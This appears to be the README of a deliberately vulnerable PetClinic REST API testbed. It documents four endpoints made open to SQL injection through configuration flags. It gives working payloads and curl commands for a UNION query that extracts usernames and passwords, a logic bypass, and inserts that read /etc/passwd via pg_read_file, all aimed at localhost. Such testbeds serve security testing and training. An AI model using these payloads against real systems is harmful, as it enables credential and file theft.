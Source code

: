 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION)
GET: /vets/{vetId}
# subvert logic
GET: /specialties/{specialtyId} 
# (hidden) inserting data
POST: /vets

# Deeper insert
POST: /owners
```

To enable a vulnerability, set `vuln{x}` to `true` in `application.properties`.

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

- operation: `getVet`
- payload: `0' UNION SELECT NULL,username,password FROM users--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

- operation: `getSpecialty`
- payload: `4'--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

- operation: `addVet`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```

## Endpoints with deeper execution paths
These vulnerable endpoints deeper code path executions.

[//]: # (all detect multiple rows as SQLi, so payloads work internally, but don't always return data in the HTTP response.)

### Vulnerability 4: `POST /owners`
This vulnerability is the same as [Vulnerability 3](#vulnerability-3-post-vets), but with a deeper code paths.
This is achieved by splitting `vulnSave` into `vulnStoreNewOwner` and `vulnUpdateExistingOwner`.

- operation: `addOwner`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)), 'addr', 'city', '42') RETURNING id--",
  "lastName": "",
  "address": "",
  "city": "",
  "telephone": ""
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0d\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)), \'addr\', \'city\', \'42\') RETURNING id--\",\x0d\x0a  \"lastName\": \"\",\x0d\x0a  \"address\": \"\",\x0d\x0a  \"city\": \"\",\x0d\x0a  \"telephone\": \"\"\x0d\x0a}\x0d\x0a' \
    $'http://localhost:9966/petclinic/api/owners'
```

